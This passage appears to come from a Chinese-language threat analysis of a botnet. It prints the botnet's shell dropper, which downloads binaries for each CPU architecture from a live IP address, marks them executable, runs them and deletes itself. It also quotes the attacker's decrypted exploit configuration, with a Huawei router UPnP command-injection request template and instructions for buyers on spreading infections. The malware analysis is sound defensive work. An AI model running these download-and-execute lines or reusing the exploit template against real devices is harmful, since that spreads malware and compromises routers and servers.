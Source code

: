 ```shell
       "aarch64")
        wget -t 1 http://209.141.46.211/m/linux_arm64||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_arm64;chmod 777 linux_arm64;./linux_arm64||rm -f linux_arm64
       ;;
       "ppc"*)
        wget -t 1 http://209.141.46.211/m/linux_ppc64||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_ppc64;chmod 777 linux_ppc64;./linux_ppc64||rm -f linux_ppc64
        wget -t 1 http://209.141.46.211/m/linux_ppc64el||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_ppc64el;chmod 777 linux_ppc64el;./linux_ppc64el||rm -f linux_ppc64el
       ;;    
       esac
fi
/bin/rm $0
```



###### 4.1.2 攻击者扫描cve漏洞机器，直接通过cve漏洞传播样本

某个样本的`cve.txt`在解密之后，发现文件存在**使用说明**，这里可以说明攻击者主动发送cve配置文件。其中配置文件中默认存在两个漏洞的配置，购买者可以按格式说明添加漏洞配置信息：

```
参考https://paper.seebug.org/490/
这个漏洞一个没有了这里只是举例写的demo
[@START]
*AGREEON=https
*PROT=8080
*WWW=/ctrlt/DeviceUpgrade_1
*MODE=POST
*HEADERS=Authorization$====$Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669
$+++$User-Agent$====$Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
*DATA=<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;/bin/busybox 这里就是要执行的命令;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
[@OVER]

需要注意的点: 
每个请求都是 start开始 over结束，如果遇到一个rce需要多次请求就按照循序继续 start over 写接下来的请求
agreeon prot www mode headers data 顺序不能错
能看懂脚本就能转换, 转换后的脚本尽量使用cve.exe  目标ip 脚本明文文件
手动验证下。没问题在加入cve.txt列表 
流程就是 先写脚本，写完用cve.exe验证然后放到cve.txt明文中，主控点击加密后会生成文件在download目录下
在主控上在点击感染，发送cve
cve目标范围是根据客户端数量自己计算的，越多速度越快，概率越高。
为了传输速度当熟悉后可删除这些说明
```
